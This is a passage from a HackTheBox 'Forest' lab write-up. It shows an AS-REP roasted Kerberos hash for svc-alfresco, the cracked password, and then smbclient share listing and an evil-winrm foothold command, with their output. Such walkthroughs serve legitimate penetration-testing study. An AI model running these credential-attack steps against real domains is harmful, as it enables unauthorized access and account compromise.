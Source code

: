 ```
$krb5asrep$23$svc-alfresco@HTB.LOCAL:46cb8cf3efcb45c7e6b2eadaacae91ab$fbb95f1159a162cf1b45a38f015b671467fb3e09f97d534134dce60dbafab87e789df2a4825a980c43a906e30142c88de29434941ff4c7960cc748cbc6fcb95bccdfd7166420bb66573b47bae792aa12abf2ecef802def79ffc094dcd953e7eb7dfafa9b544eb67b7fb4e2baede3a763789978b0a7398e5a446f39ae2df4cfae9543e97fd47809ce4e5214335f0893b5418c871bcb3d4745b86c9b9cac83ac1e26ae4c9ae5b5c16bfaa5abc8bdc2b988b7b647341c94cd3b0def050b5f43dc64fb265aab9dd776224cd587530bbe2f70e422c24eed6ed17ce8b27bf4021ba227eaa3382556ca
```
- From the above we can see that the service account `svc-alfresco` account is AS-REPRoastable and we also were able to retrieve the password hash of this account, this is because the GetNPUsers script request the TGT of the user account and the hash of this user is also included in this TGT, so we were able to retrieve the hash
- so we can further use john to attempt to crack the hash and we were able to successfully retrieve the password of the user

![](assets/Forest_assets/Pasted%20image%2020230605004359.png)

- we can use crackmapexec to verify that those are valid credentials

![](assets/Forest_assets/Pasted%20image%2020230605005034.png)

- we can also list the smb shares using the credentials 
```shell
┌──(kali㉿kali)-[~/PNPT/machines]
└─$ smbclient -L \\\\htb.local\\ -I 10.10.10.161 -U svc-alfresco --password=s3rvice

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to htb.local failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```
## Foothold
- since we have Win-RM open, port 5985, we can gain foothold using `evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice`
